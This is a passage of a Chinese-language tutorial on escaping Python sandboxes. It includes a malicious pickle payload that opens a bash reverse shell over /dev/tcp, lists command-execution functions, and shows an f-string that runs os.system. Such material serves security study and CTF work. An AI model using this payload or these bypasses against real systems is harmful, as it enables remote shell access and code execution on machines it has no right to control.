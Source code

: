 ```
a='''c__builtin__\nsetattr\n(c__builtin__\n__import__\n(S'sys'\ntRS'stdin'\ncStringIO\nStringIO\n(S'__import__('os').system('bash -c "bash -i >& /dev/tcp/127.0.0.1/12345 0<&1 2>&1"')'\ntRtRc__builtin__\ninput\n(S'python> '\ntR.'''

pickle.loads(a)
```



## 0x02沙箱绕过


### 使用常用模块

```
os.system('ifconfig')
os.popen('ifconfig')
commands.getoutput('ifconfig')
commands.getstatusoutput('ifconfig')
subprocess.call(['ifconfig'],shell=True)
open()
file()
eval,exec,execfile

```


> 其中，这个subprocess中的shell参数phithon师傅在小密圈以前专门提到过 如果shell=True的话，curl命令是被Bash(Sh)启动，所以支持shell语法。 如果shell=False的话，启动的是可执行程序本身，后面的参数不再支持shell语法。

> [os模块其他方法](https://docs.python.org/2/library/os.html)

> 对于python的文件操作，我们常用的open()和file()，用法差不多，不过python3已经移除了file函数

### 使用反序列化模块

pickle Cpickle等

### 使用types和timeit模块

- timeit模块

timeit.timeit等

[timeit](https://docs.python.org/2/library/timeit.html)

- types模块


### 字符串修饰符f

python3.6引入的一个字符串修饰符f，即f-strings，这个比较有意思了，能实现的效果基本和format差不太多，同样可以用来进行命令执行

```
f"{__import__('os').system('ls')}"

```
